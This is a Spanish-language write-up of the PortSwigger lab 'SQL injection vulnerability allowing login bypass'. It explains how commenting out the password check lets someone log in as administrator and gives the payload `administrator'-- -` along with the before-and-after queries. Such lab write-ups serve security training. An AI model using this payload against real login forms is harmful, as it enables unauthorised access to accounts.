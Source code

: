 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

### Query original:

````sql
select id,username,subscription from users where username = 'F0n3' and password = 'p@ssw0rd123-1';
````

### Query inyectada:

````sql
select id,username,subscription from users where username = 'F0n3' -- and password = 'p@ssw0rd123-1';
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/49b83b5c-02a2-4733-a894-def831e0242b)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/836a0bdb-2069-492c-b109-6dce5b4824e9)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/32cf2b6f-58ef-4e79-8fc0-fe52d18b4d6d)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4cd5611e-0aac-435f-a45d-4a254b669186)


## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/dfe5453b-1098-4799-a0fd-a7a940683d9f)


2. Aquí encuentro donde puedo hacer inputs de strings

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/e6481b91-47f2-4b54-8cc9-0d036d9d99a1)


3. Query que usé (lo puse en ambos campos, aunque se puede usar en el primero y el segundo lo que sea...)

````sql
administrator'-- -
````
````http
Username: administrator'-- -
Password: Lo que sea...
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/95856f02-84de-4067-a9af-65183b9bb6a9)





